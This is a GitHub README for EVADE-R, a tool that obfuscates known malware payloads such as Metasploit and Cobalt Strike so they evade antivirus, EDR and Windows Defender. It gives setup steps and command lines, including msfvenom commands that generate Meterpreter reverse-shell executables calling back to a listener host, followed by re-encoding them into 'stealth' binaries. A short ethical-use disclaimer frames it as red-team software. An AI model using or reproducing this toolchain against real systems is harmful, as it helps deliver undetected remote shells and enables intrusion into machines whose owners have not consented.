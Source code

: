 <h1 align="center">
  🛡️ EVADE-R 🧠
</h1>

<p align="center">
  <i>Evasion Validator and Automated Decoder Engine for Red-teaming</i><br>
  <b>EVADE-R</b> is a Red Team utility that transmutes known payloads into new forms designed to slip past antivirus and EDR defenses—without breaking functionality.
</p>

---

## 🧬 What It Does

> Takes a known `.exe` payload → disassembles → obfuscates → recompiles → survives.

**EVADE-R** is an automated toolchain that:
- 💥 Accepts known malware signatures (e.g., Cobalt Strike, MSF payloads)
- 🧠 Decompiles and extracts `.text` section shellcode
- 🌀 Obfuscates shellcode via multiple encoding techniques (XOR, Rolling XOR, ROT)
- 🧪 Rebuilds a working `.exe` with runtime decoder stubs
- 🦠 Bypasses Windows Defender with ease

---

## 🛠️ Features

✅ Shellcode extractor  
✅ Multiple obfuscation techniques:
  - Simple XOR encoding with randomized key
  - Rolling XOR with multi-byte keys for enhanced evasion
  - ROT (byte rotation) encoding
✅ Runtime decoder stub injection  
✅ Minimal stub loader in C  
✅ Automated rebuild and output generation
✅ Command-line interface for automation  
✅ Support for both EXE and raw shellcode payloads  
🚧 Looping & VT feedback (coming soon)  
🚧 Junk injection and instruction substitution (planned)

---

## ⚙️ Setup

### 📦 Requirements
- Arch Linux (or other distro)
- `mingw-w64-gcc` (`sudo pacman -S mingw-w64-gcc`)
- Python 3.10+
- `capstone`, `lief`, `keystone-engine`

### 🧱 One-Time Install

```bash
git clone https://github.com/godofthunder8756/evade-r.git
cd evade-r
chmod +x setup.sh run.sh
./setup.sh
```
## 🚀 Usage

### 🎯 Generate a detectable payload (example)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.5.0.59 LPORT=4444 -f exe -o payload.exe
🧼 Transform it with EVADE-R

./run.sh payload.exe
```

This will:

    Extract and XOR-encode the shellcode

    Insert a runtime decoder stub

    Recompile into a new executable

You’ll find the results in:
```
artifacts/
└── payload/
    ├── EVADE_payload.exe              # Final obfuscated and rebuilt payload
    ├── obfuscated_disassembly.txt     # Human-readable disassembly with obfuscation
    └── text_section.bin               # Raw extracted .text section shellcode
``` 

## 🔒 Ethical Use Only

This tool is provided strictly for ethical hacking, research, and red team training purposes.
Do not use EVADE-R on systems or networks you do not own or have explicit permission to test.

The creator assumes **no** responsibility for illegal or malicious use.

---

## 📋 Advanced Usage

### Command Line Options

EVADE-R now supports several command-line options for greater flexibility:

```bash
python msf_session.py -h
```

Available options:

```
  -h, --help            Show this help message and exit
  -c COMMAND, --command COMMAND
                        MSFVenom command to run
  -i INPUT, --input INPUT
                        Use existing payload file instead of generating new one
  -o OUTPUT, --output OUTPUT
                        Output filename
  -e {1,2,3}, --encoder {1,2,3}
                        Obfuscation method (1=XOR, 2=Rolling XOR, 3=ROT)
  --cleanup             Remove original payload file after obfuscation
  --no-interactive      Run in non-interactive mode with defaults
```

### Examples

```bash
# Direct command execution with specific encoder
python msf_session.py -c "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe" -e 2

# Process existing payload with custom output path
python msf_session.py -i payload.exe -o custom/path/stealth.exe -e 3

# Batch processing (non-interactive)
python msf_session.py -i payload.exe -e 1 --no-interactive --cleanup
```

### Obfuscation Techniques

1. **Simple XOR (Level 1)** - Basic XOR encoding with a random byte key
   * Good for basic signature evasion
   * Fastest processing speed

2. **Rolling XOR (Level 2)** - Multi-byte key XOR with rotating pattern
   * Better evasion against static analysis
   * Defeats simple XOR pattern detection

3. **ROT Encoding (Level 3)** - Byte rotation with random shift value
   * Alternative encoding method
   * Useful when XOR patterns are flagged

### 🧙 Author

  Made with blood, bytes, and broken detections by Aidan Ahern
